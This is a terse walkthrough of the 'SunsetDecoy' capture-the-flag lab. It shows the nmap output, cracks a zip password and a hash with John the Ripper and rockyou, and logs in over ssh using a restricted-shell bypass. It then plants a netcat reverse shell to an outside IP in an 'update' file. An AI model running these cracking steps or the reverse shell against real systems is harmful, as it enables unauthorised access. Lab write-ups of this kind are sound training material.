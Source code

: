 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# SunsetDecoy
# 11/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38


zip2john save.zip > hash   
 john -w=/usr/share/wordlists/rockyou.txt hash   
 manuel           (save.zip)     
server           (296640a3b825115a47b68fc44501c828)
ssh 296640a3b825115a47b68fc44501c828@192.168.157.85 -t "bash --noprofile"
/usr/bin/cat local.txt


./honeypot.decoy
->5

echo “/usr/bin/nc 192.168.45.5 4444 -e /bin/sh” > update

/usr/bin/ps aux
